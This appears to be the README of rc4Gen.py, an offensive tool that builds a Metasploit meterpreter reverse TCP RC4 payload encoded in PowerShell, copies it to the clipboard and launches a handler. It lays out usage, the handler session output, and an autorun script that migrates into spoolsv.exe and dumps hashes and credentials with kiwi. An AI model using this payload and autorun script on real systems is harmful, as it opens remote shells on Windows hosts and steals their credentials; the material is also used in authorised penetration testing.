 # rc4Gen
                __ __    ____                      
               /\ \\ \  /\  _`\                    
     _ __   ___\ \ \\ \ \ \ \L\_\     __    ___    
    /\`'__\/'___\ \ \\ \_\ \ \L_L   /'__`\/' _ `\  
    \ \ \//\ \__/\ \__ ,__\ \ \/, \/\  __//\ \/\ \ 
     \ \_\\ \____\\/_/\_\_/\ \____/\ \____\ \_\ \_\
      \/_/ \/____/   \/_/   \/___/  \/____/\/_/\/_/


    rc4Gen.py v1.0
    Description: Generates a MSF Reverse TCP RC4 payload encoded in Powershell to the clipboard.
    Created by: Nick Sanzotta/@beamr
    Additionally, it will copy the payload to your clipboard and automagically launch the MSF listener.
    rc4Gen.py supports both command-line parameters and a wizard with interactive menu driven options.
***
Installation:

    git clone 
    cd rc4Gen
    python rc4Gen.py

***
Default Values:

    If a parameter is not defined it's default value will be choosen.
    Default values listed below.
    
    lport = '443'
    rc4Password = 'rc4M4g1c'
    verbose = 'off'
    listener = 'on'
    
***
Usage(CLI):

    python rc4Gen.py --lhost=192.168.1.18 --lport=447 --verbose=on --listener=off
***
Usage(Wizard):

    External IP: 100.255.255.255
    Internal IP: 10.37.242.7

    You did not specifiy the LHOST, wizard menu has launched:

    Enter LHOST for payload[100.255.255.255]:10.37.242.7
    ENTERED: "10.37.242.7"

    Enter LPORT for payload[443]:
    ENTERED: "443"

    Enter RC4PASSWORD for payload[rc4M4g1c]:
    ENTERED: "rc4M4g1c"

    TIP: Verbosity [ON] will print payload to STDOUT.
    TIP: Verbosity [OFF] will copy payload to Clipboard.
    Verbosity[OFF]:
    ENTERED: "OFF"

    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 421 (iteration=0)
    x86/shikata_ga_nai chosen with final size 421
    Payload size: 421 bytes
    Saved as: rc4_payload.ps1

    Payload Copied to Clipboard:

    PAYLOAD: reverse_tcp_rc4
    LHOST: 10.37.242.7
    LPORT: 443
    RC4PASSWORD: rc4M4g1c
    TIP: Listener [ON] will automagically launch a MSF listener.
    listener[ON]:
    ENTERED: "ON"

    [*] Processing rc4_listener.rc for ERB directives.
    resource (rc4_listener.rc)> use multi/handler
    resource (rc4_listener.rc)> set PAYLOAD windows/meterpreter/reverse_tcp_rc4
    PAYLOAD => windows/meterpreter/reverse_tcp_rc4
    resource (rc4_listener.rc)> set LHOST 10.37.242.7
    LHOST => 10.37.242.7
    resource (rc4_listener.rc)> set LPORT 443
    LPORT => 443
    resource (rc4_listener.rc)> set Rc4PASSWORD rc4M4g1c
    Rc4PASSWORD => rc4M4g1c
    resource (rc4_listener.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (rc4_listener.rc)> set AutoRunScript multi_console_command -rcautorun_commands.rc
    AutoRunScript => multi_console_command -rcautorun_commands.rc
    resource (rc4_listener.rc)> exploit -j -z
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.37.242.7:443 
    [*] Starting the payload handler...
    msf exploit(handler) > exit
        ...
***
Autorun Script:

    migrate -N spoolsv.exe
    load kiwi
    sysinfo
    hashdump
    creds_all
    lsa_dump
    

***
To Do:

    Create help function.
    Complete README.md
    autorun script ON/off feature (add)
